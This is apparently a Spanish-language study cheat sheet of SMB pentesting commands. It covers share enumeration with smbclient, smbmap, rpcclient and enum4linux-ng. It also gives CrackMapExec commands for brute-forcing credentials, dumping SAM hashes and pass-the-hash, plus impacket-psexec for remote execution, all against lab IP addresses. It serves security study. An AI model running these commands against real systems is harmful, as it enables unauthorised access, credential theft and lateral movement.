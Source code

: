 ## Enumeración

| Comando                                                                                                                                           | Descripción                                                                                                                                                                                              | Ejemplo                                             |
| ------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------- |
| smbclient -N -L //1.2.3.4                                                                                                                         | Numera recursos compartidos                                                                                                                                                                              | smbclient -N -L //10.129.14.128                     |
| smbmap -H <ip_víctima>                                                                                                                            | Numera recursos compartidos                                                                                                                                                                              | smbmap -H 10.129.14.128                             |
| smbmap -H <ip_víctima> -r <nombre_recurso>                                                                                                        | Numera de forma recursiva los archivos que se encuentren dentro de dicho recurso                                                                                                                         | smbmap -H 10.129.14.128 -r notes                    |
| smbmap -H 10.129.14.128 --download "<nombre_recurso>\<nombre_archivo>"                                                                            | Descarga un archivo de un recurso concreto compartido                                                                                                                                                    | smbmap -H 10.129.14.128 --download "notes\note.txt" |
| smbmap -H <ip_víctima> --download "<SHARE\path_al_archivo>" -u <\usuario> -p '<\contraseña>'                                                      | Mapea/lista recursos SMB y permite descargar archivos desde un share remoto. --download descarga el fichero indicado (ruta SHARE\archivo o SHARE\carpeta\archivo) usando las credenciales suministradas. |                                                     |
| smbmap -H 10.129.14.128 --upload "<nombre_recurso>\<nombre_archivo>"                                                                              | Carga un archivo de un recurso concreto compartido                                                                                                                                                       | smbmap -H 10.129.14.128 --download "notes\test.txt" |
| smbclient //1.2.3.4/<nombre_rescurso>                                                                                                             | Acceder a un recurso compartido concreto                                                                                                                                                                 |                                                     |
| smb: \> ls / cd / get                                                                                                                             | Dentro del recurso de SMB, puedo listar directorios, acceder o descargar.                                                                                                                                |                                                     |
| rpcclient -U "%" 1.2.3.4                                                                                                                          | Puedo realizar varias solicitudes para obtener información. Estas son las siguientes (ver comandos a posterior):                                                                                         |                                                     |
| rpc_client> `srvinfo`                                                                                                                             | Muestra información general del servidor.                                                                                                                                                                |                                                     |
| rpc_client>`enumdomains`                                                                                                                          | Enumera todos los dominios visibles en la red.                                                                                                                                                           |                                                     |
| rpc_client>`querydominfo`                                                                                                                         | Muestra detalles del dominio, usuarios y controladores.                                                                                                                                                  |                                                     |
| rpc_client>`netshareenumall`                                                                                                                      | Lista todos los recursos compartidos disponibles (shares).                                                                                                                                               |                                                     |
| rpc_client>`netsharegetinfo <nombre_recurso>`                                                                                                     | Muestra información detallada sobre un recurso compartido específico.                                                                                                                                    |                                                     |
| rpc_client>`enumdomusers`                                                                                                                         | Enumera todos los usuarios del dominio.                                                                                                                                                                  |                                                     |
| rpc_client>`queryuser <RID>`                                                                                                                      | Proporciona información detallada sobre un usuario (requiere RID). Ver comando `enumdomusers`                                                                                                            |                                                     |
| `smbmap -H 1.2.3.4`                                                                                                                               | Numera recursos compartidos                                                                                                                                                                              |                                                     |
| `crackmapexec smb 10.129.14.128 --shares -u '' -p '' `                                                                                            | Numera recursos compartidos                                                                                                                                                                              |                                                     |
| >git clone https://github.com/cddmp/enum4linux-ng.git<br>>cd enum4linux-ng<br>>pip3 install -r requirements.txt<br>>./enum4linux-ng.py 1.2.3.4 -A | Enumerar información en servidores SMB/Windows**                                                                                                                                                         |                                                     |
| `cat /etc/samba/smb.conf`                                                                                                                         | Para visualizar las parametros de configuración del servicio SMB.                                                                                                                                        |                                                     |
| smbmap -H <ip_atacante>                                                                                                                           | Numera recursos compartidos                                                                                                                                                                              | smbmap -H 10.129.14.128                             |
## CrackMapExec

| Comando                                                                                           | Descripción                                                                                                                                                                             | Ejemplo                                                                            |
| ------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------- |
| crackmapexec smb <ip_víctima> -u /ruta/lista_usuarios.txt -p /ruta/contraseñas.txt (--local-auth) | Fuerza bruta contra credenciales SMB. El parámetro --local-auth hace que CME intente autenticarse contra las cuentas locales (SAM) del host objetivo en lugar de usar dominio/Kerberos. | crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth    |
| crackmapexec smb <ip_víctima> -u \<usuario> -p \<contraseña> --sam                                | Extrae los hashes SAM (Security Account Manager) del sistema remoto si el usuario tiene privilegios administrativos. Permite obtener los hashes de las cuentas locales.                 | crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam             |
| crackmapexec smb <ip_víctima> -u \<usuario> -H \<NTLM_hash>                                       | Autenticación mediante hash NTLM en lugar de contraseña en texto claro (técnica “Pass-the-Hash”). Útil cuando tienes el hash pero no la contraseña.                                     | crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE |
|                                                                                                   |                                                                                                                                                                                         |                                                                                    |
## Varios

| Comando                                            | Descripción                                                                                                                                                                                                                                          | Ejemplo                                                   |
| -------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| impacket-psexec \<user>:'<\password>'@<ip_víctima> | Ejecuta comandos remotamente usando SMB/servicio (como PsExec). Requiere credenciales con permisos administrativos en la máquina destino (cuenta local o de dominio). Crea un servicio temporal para ejecutar el payload/COMANDO y luego lo elimina. | impacket-psexec administrator:'Password123!'@10.10.110.17 |
|                                                    |                                                                                                                                                                                                                                                      |                                                           |



